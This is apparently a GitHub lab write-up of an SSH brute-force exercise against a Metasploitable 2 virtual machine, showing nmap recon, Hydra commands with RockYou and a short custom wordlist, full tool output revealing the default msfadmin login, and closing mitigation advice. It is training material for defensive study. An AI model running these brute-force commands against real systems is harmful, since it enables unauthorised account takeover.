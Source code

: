 # Brute Force SSH Login Using Hydra

## Objective

Simulate a brute-force attack against an SSH service using Hydra to test password strength and understand the risks of weak or default credentials.

## Target Information

- **Target Machine:** Metasploitable 2
- **IP Address:** 192.168.56.102
- **Service:** SSH (Port 22)
- **Known User:** `msfadmin`

## Tools Used

- Kali Linux
- Hydra (pre-installed in Kali)
- RockYou password list: `/usr/share/wordlists/rockyou.txt`
- Nmap (for recon)
- Custom wordlist: `quicklist.txt`

## Lab 
### STEP 1

Ensure Metasploitable 2 is powered on and reachable from Kali. Confirm SSH is enabled on the target:

```bash
nmap -sS -sV -O 192.168.56.102
nmap -p 22 192.168.56.102
```
![image](https://github.com/user-attachments/assets/5f925245-1d15-41b4-b92c-2439563e5ed1)
Confirm that SSH is running and reachable (I did a little extra)

### STEP 2 

Enable SSH client compatibility in Kali (After SSH atttept failed)

Failed SSH attempt
```bash
──(kali㉿kali)-[/usr/share/wordlists]
└─$ hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt.gz  ssh://192.168.56.102

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-01 13:11:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.56.102:22/
[ERROR] could not connect to ssh://192.168.56.102:22 - kex error : no match for method server host key algo: server [ssh-rsa,ssh-dss], client [ssh-ed25519,ecdsa-sha2-nistp521,ecdsa-sha2-nistp384,ecdsa-sha2-nistp256,sk-ssh-ed25519@openssh.com,sk-ecdsa-sha2-nistp256@openssh.com,rsa-sha2-512,rsa-sha2-256]
``` 
Enable SSH Client
```bash
sudo kali-tweaks
```
Go to Hardening
![Screenshot 2025-07-01 134802](https://github.com/user-attachments/assets/63042173-8d77-438f-aa07-a7d134811899)


Toggle SSH Client
![Screenshot 2025-07-01 134826](https://github.com/user-attachments/assets/6494ba13-6efb-436c-8727-83577d01b8e5)
![Screenshot 2025-07-01 134815](https://github.com/user-attachments/assets/32e5b084-6d0a-4c21-b3d1-084391714d56)

This allows Hydra to connect to legacy SSH servers like Metasploitable 2

### STEP 3
Attempting RockYou (Too large)

```bash
hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.102
```
Failed (Cancelled) due to large size

```bash
└─$ hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt.gz  ssh://192.168.56.102

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-01 13:34:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.56.102:22/
[STATUS] 216.00 tries/min, 216 tries in 00:01h, 14344191 to do in 1106:49h, 8 active
 [STATUS] 208.00 tries/min, 624 tries in 00:03h, 14343783 to do in 1149:21h, 8 active
```
Realized I needed to uncompress file

```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```

### STEP 4

Create a faster wordlist

```bash
echo -e "msfadmin\nadmin\npassword\n123456\nletmein\nkali" > quicklist.txt
```

### STEP 5
Run Hydra with optimization flags (Run Hydra with decompressed RockYou)

```bash
hydra -l msfadmin -P quicklist.txt ssh://192.168.56.102 -t 4 -V -f
```
Result

```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l msfadmin -P quicklist.txt ssh://192.168.56.102 -t 4 -V -f

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-01 13:39:05
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 6 login tries (l:1/p:6), ~2 tries per task
[DATA] attacking ssh://192.168.56.102:22/
[ATTEMPT] target 192.168.56.102 - login "msfadmin" - pass "msfadmin" - 1 of 6 [child 0] (0/0)
[ATTEMPT] target 192.168.56.102 - login "msfadmin" - pass "admin" - 2 of 6 [child 1] (0/0)
[ATTEMPT] target 192.168.56.102 - login "msfadmin" - pass "password" - 3 of 6 [child 2] (0/0)
[ATTEMPT] target 192.168.56.102 - login "msfadmin" - pass "123456" - 4 of 6 [child 3] (0/0)
[22][ssh] host: 192.168.56.102   login: msfadmin   password: msfadmin
[STATUS] attack finished for 192.168.56.102 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-01 13:39:15
```
Success!
Run with uncompressed RockYou

```bash
└─$ hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.102 -t 6   
```

Result (still too long)
```bash
└─$ hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.102 -t 6       

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-01 14:04:24
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
-I
[DATA] max 6 tasks per 1 server, overall 6 tasks, 14344399 login tries (l:1/p:14344399), ~2390734 tries per task
[DATA] attacking ssh://192.168.56.102:22/
[STATUS] 162.00 tries/min, 162 tries in 00:01h, 14344237 to do in 1475:45h, 6 active
```

## Analysis
- Brute-forcing with Hydra is effective when credentials are weak
- Custom wordlists reduce time, increase efficiency in lab settings
- rockyou.txt is too large for quick testing and isn’t practical here
- The target accepted a known default credential (msfadmin:msfadmin)

## Mititgation Recommedations
- Enforce strong passwords
- Disable default accounts or rename them
- Limit SSH access (IP whitelisting, firewall)
- Use tools like Fail2Ban to detect and block repeated login attempts
- Consider disabling password-based login in favor of key-based auth
